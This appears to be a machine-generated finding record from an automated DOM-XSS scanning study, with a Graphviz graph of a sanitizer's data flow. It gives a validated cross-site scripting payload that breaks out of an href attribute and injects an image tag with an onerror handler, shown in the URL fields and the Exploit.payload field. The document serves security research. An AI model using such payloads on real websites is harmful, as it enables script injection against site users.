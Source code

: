 // Finding: fcc2adbd-1097-40a0-b1a4-61fb3a9c2a07
// Finding.url: https://business.example366.com/advertising##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4cc8dfb5162495fb26beeeab026d202')><!--/*
// Finding.parentloc: https://business.example366.com/advertising##"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('e4cc8dfb5162495fb26beeeab026d202')><!--/*
// Finding.domain: business.example366.com
// Finding.base_domain: example366.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: createBreadcrumbs
// Sanitizer.location: https://cdn-us-ec.example367.com/58a4671832f01c09d60000d0/business.example366.com/v~4b.b0/siteassets/js/business.js?yocs=4_ - createBreadcrumbs:1:10687
// Finding.begin: 32
// Finding.end: 43
// Finding.original_uuid: 1720d2a9-4e6f-47fb-a3d7-9a77a3df8651
// Finding.TwentyFiveMillionFlowsId: 488533994
// Finding.script: https://cdn-us-ec.example367.com/58a4671832f01c09d60000d0/9ee76170f16201340bc4026173a6dedd.example367.com/v~4b.b0/jquery-3.3.1.min.js?yocs=4_
// Finding.line: 2
// Exploit.uuid: e4cc8dfb-5162-495f-b26b-eeeab026d202
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: href
// Exploit.quote_type: "
// Exploit.tag: a
// Exploit.break_out: #"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 27
// Exploit.end_taint_url: 38
// Exploit.replace_begin_url: 38
// Exploit.replace_end_url: 38
// Exploit.replace_begin_param: 25
// Exploit.replace_end_param: 25
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -1668161182
// DepGraph.sanitizer_hash: -1668161182

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: /"];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="strtoupper"];
n5 [shape=box, label="Var: x"];
n6 [shape=ellipse, label="preg_replace"];
n7 [shape=box, label="RegExp: /[-]/"];
n8 [shape=box, label="Lit:  "];
n9 [shape=box, label="Var: x"];
n10 [shape=ellipse, label="preg_replace"];
n11 [shape=box, label="RegExp: / AND /"];
n12 [shape=box, label="Lit:  & "];
n13 [shape=box, label="Var: x"];
n14 [shape=ellipse, label="split"];
n15 [shape=box, label="Lit: #"];
n16 [shape=box, label="Var: x"];
n17 [shape=ellipse, label="str_replace_once"];
n18 [shape=box, label="Lit: ON CENTER"];
n19 [shape=box, label="Lit: ON-CENTER"];
n20 [shape=box, label="Var: x"];
n21 [shape=box, label="Var: x"];
n22 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n5 -> n1;
n4 -> n5;
n9 -> n4;
n6 -> n7;
n6 -> n8;
n6 -> n9;
n13 -> n6;
n10 -> n11;
n10 -> n12;
n10 -> n13;
n16 -> n10;
n14 -> n15;
n14 -> n16;
n20 -> n14;
n17 -> n18;
n17 -> n19;
n17 -> n20;
n21 -> n17;
n22 -> n21;
}